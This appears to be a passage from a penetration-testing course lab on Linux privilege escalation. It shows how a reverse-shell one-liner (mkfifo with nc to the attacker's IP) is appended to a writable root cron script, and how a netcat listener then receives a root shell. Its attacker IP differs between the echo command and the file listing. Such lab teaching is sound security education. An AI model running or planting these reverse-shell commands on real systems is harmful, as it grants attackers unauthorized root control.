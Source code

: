 Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell [*one-liner*](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a one-minute period.

```
joe@debian-privesc:~$ cd .scripts

joe@debian-privesc:~/.scripts$ echo >> user_backups.sh

joe@debian-privesc:~/.scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh

joe@debian-privesc:~/.scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

> Listing 37 - Inserting a reverse shell one-liner in user\_backups.sh

All we must do now is set up a listener on our Kali Linux machine and wait for the cron job to execute:

```
kali@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.214] 57698
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

> Listing 38 - Getting a root shell from our target

As shown in the previous listing, the cron job did execute, as well as the reverse shell one-liner. We have successfully elevated our privileges and have access to a root shell on the target.

Although this was a simple example, it is not uncommon to find similar situations in the field since administrators are often more focused on pushing systems into production rather than securing script file permissions.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Linux Privilege Escalation - Abusing Cron Jobs - VM #1

Linux Privilege Escalation - Abusing Cron Jobs - VM #2

#### Labs
